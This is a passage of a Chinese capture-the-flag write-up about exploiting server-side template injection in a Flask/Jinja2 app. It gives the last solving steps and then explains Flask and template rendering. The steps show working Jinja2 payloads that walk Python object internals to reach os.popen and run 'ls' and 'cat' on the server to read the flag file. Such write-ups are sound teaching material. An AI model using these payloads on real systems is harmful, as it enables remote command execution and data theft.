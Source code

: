 8. 发现能通过warnings.catch_warnings的linecache函数引用了os函数，可以访问os模块执行系统命令。访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.\_\_globals\_\_['linecache'].os.popen('ls').read()\}\}，返回内容为/fl4g index.py not found,找到flag文件

9. 直接通过网址访问ip:port/fl4g，访问失败

10. 继续使用linecache函数进行调用系统函数，ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.\_\_globals\_\_['linecache'].os.popen('cat fl4g').read()\}\}，返回内容为/ctf\{f22b6844-5169-4054-b2a0-d95b9361cb57\} not found

11. 发现flag，ctf\{f22b6844-5169-4054-b2a0-d95b9361cb57\}

12. 提交，答案正确

## 独立思考

### 1. Flask框架是什么？有什么特点？

Flask是一个微型的Python开发的Web框架，基于Werkzeug WSGI工具箱和Jinja2模板引擎。

```python
from flask import Flask

app=Flask(__name__)

@app.route('/')
def hello_world():
    return 'hello world'

if __name__=='__main__':
    app.run(debug=True)
```

* Flask被称为"微框架"，因为它使用了简单的核心，用extension增加其他的功能。
* Flask没有默认使用的数据库、窗体验证工具，不过可以使用Flask-extension加入这些功能

### 2. Flask的模板是什么？

Flask的渲染方法有两种：

* render_template()用来渲染一个指定的文件

  ```python
  return render_template('index.html')
  ```

* render_template_string()用来渲染一个字符串

  ```python
  html = '<h1> hello world </h1>'
  return render_template_string(html)
  ```

模板并不是单纯的html代码，而是加载着模板语法的html文件。Flask采用Jinja2作为渲染引擎，\{\{\}\}在Jinja2中作为变量包裹标识符。类似于Github Pages的生成方法，页面是需要变化的，所以存在一些模板的占位符。

模板默认是在网站根目录下新建templates文件夹，文件夹内存放html模板文件。(模板文件位置可以通过配置文件修改)
